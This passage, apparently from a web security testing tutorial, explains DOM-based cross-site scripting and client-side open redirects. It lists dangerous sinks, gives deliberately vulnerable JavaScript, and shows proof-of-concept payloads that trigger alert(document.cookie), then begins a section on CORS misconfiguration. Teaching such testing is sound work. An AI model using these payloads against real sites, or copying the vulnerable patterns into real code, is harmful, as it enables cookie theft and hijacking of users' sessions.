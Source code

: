 ```javascript

// Step 2: Identify sinks (potentially dangerous methods)
// Common sinks:
document.write()
innerHTML
outerHTML
insertAdjacentHTML()
eval()
setTimeout() / setInterval()
location / location.href
jQuery methods ($(), html(), etc.)
element.src / element.setAttribute()

// Step 3: Example vulnerable code
// URL: https://example.com/page.html#name=user
var pos = document.URL.indexOf("name=") + 5;
var name = document.URL.substring(pos, document.URL.length);
document.getElementById("greeting").innerHTML = "Hello, " + name;

// Step 4: Exploit payload
// URL: https://example.com/page.html#name=<img src=x onerror=alert(document.cookie)>

// Step 5: Testing with browser console
// Inject test payload via console:
document.getElementById("greeting").innerHTML = "Hello, <img src=x onerror=alert(document.cookie)>";

// Step 6: Client-side redirect vulnerability
// Vulnerable code:
var redirect = location.hash.substring(1);
if (redirect) {
    window.location = redirect;
}

// Exploit:
// https://example.com/page.html#javascript:alert(document.cookie)
```

### 6.2 Cross-Origin Resource Sharing (CORS) Issues

Exploiting misconfigured CORS policies:

1. **CORS Concepts**:
   - Same-origin policy
   - Cross-origin requests
   - CORS headers
   - Preflight requests

2. **CORS Vulnerabilities**:
   - Overly permissive CORS policies
   - Insecure origin validation
   - Credential exposure
   - Null origin handling
